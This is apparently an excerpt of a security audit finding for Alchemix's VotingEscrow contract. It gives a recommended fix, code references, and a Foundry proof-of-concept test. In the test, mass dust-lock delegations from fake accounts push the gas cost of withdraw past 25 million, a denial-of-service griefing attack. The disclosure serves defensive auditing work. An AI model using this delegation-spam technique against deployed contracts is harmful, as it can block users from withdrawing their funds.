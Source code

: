 ## Recommendation

Adjust the `MAX_DELEGATES` from 1024 to 128 Or Give an option for users to opt-out/opt-in for a certain delegated tokens. Users will only accept the delegated tokens if they opt-in, or users can opt-out to refuse any uncommissioned delegated tokens.

## References

* https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1033-L1052
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1103-L1130

## Proof Of Concept

**Steps to Run using Foundry:**

* Paste following foundry code in `src/test/VotingEscrow.t.sol`
* Run using `FOUNDRY_PROFILE=default forge test --fork-url $FORK_URL --fork-block-number 17133822 --match-contract VotingEscrowTest --match-test testDelegateLimitAttack -vv`

```solidity
function testDelegateLimitAttack() public {
    // Give some tokens to this contract
    hevm.startPrank(address(admin));
    IERC20(bpt).transfer(address(this), TOKEN_1M);
    hevm.stopPrank();

    // Give full approval to voting escrow
    IERC20(bpt).approve(address(veALCX), type(uint256).max);

    uint EPOCH = veALCX.EPOCH();

    uint tokenId = veALCX.createLock(TOKEN_1, EPOCH, false);

    for(uint256 i = 0; i < veALCX.MAX_DELEGATES() - 1; i++) {
        hevm.roll(block.number + 1);
        hevm.warp(block.timestamp + 12);
        
        address fakeAccount = address(uint160(block.timestamp + i));
        IERC20(bpt).transfer(fakeAccount, 1);

        hevm.startPrank(fakeAccount);
        IERC20(bpt).approve(address(veALCX), type(uint256).max);
        veALCX.createLock(1, MAXTIME, true);
        veALCX.delegate(address(this));
        hevm.stopPrank();
    }
    
    hevm.roll(block.number + 1);
    hevm.warp(block.timestamp + EPOCH);
    veALCX.startCooldown(tokenId);

    hevm.roll(block.number + 1);
    hevm.warp(block.timestamp + EPOCH);

    uint initialGas = gasleft();
    veALCX.withdraw(tokenId);
    uint gasUsed = initialGas - gasleft();
    
    console.log("Gas Used in total: ", gasUsed);
    assertGt(gasUsed, 25_000_000);
}
```
